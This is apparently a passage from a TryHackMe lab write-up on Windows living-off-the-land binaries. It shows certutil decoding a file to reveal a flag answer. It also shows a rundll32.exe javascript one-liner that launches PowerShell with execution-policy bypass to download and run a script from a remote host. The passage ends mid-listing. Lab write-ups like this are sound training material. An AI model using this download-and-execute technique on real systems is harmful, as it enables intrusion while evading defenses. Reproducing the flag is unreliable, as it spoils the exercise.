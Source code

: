 ```console
CertUtil -decode -?      -- Display help text for the "decode" verb
CertUtil -v -?           -- Display all help text for all verbs
```
{: .nolineno }

We can give 2 parameters : the file to decode and the destination file to store the output.

```console
C:\Users\thm\Desktop>certutil -decode enc_thm_0YmFiOG_file.txt output.txt
Input Length = 52
Output Length = 38
CertUtil: -decode command completed successfully.
C:\Users\thm\Desktop>type output.txt
THM{ea4e2b9f362320d098635d4bab8a568e}
```
{: .nolineno }

Answer : THM{ea4e2b9f362320d098635d4bab8a568e}

## TASK 5 : File Execution
### Read the above and practice these tools on the attached machine! 
Practicing wmic.exe, explorer.exe and rundll32.exe to open calc.exe works well.

I also tried to create an arbitrary file with the rundll32.exe method :

```console
root@ip-10-10-141-93:~/Desktop# cat script.ps1 
New-Item -Path "C:\Users\thm\Desktop\hello.txt"

C:\Users\thm\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\thm\Desktop

12/10/2022  08:34 AM    <DIR>          .
12/10/2022  08:34 AM    <DIR>          ..
12/10/2022  08:34 AM                 0 certutil
12/10/2022  08:14 AM                66 encoded-test.txt
12/10/2022  08:23 AM                52 enc_thm_0YmFiOG_file.txt
12/10/2022  08:32 AM                 0 out.txt
12/10/2022  08:33 AM                38 output.txt
12/10/2022  08:11 AM                 6 payload.txt
04/14/2022  12:40 PM               955 SysinternalsSuite.lnk
12/10/2022  08:09 AM                 6 test.txt
12/10/2022  08:34 AM                 0 typ
12/10/2022  08:34 AM                 0 type
              10 File(s)          1,123 bytes
               2 Dir(s)  13,964,197,888 bytes free

C:\Users\thm\Desktop>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://10.10.141.93:8000/script.ps1');");

C:\Users\thm\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\thm\Desktop

12/10/2022  09:28 AM    <DIR>          .
12/10/2022  09:28 AM    <DIR>          ..
12/10/2022  08:34 AM                 0 certutil
```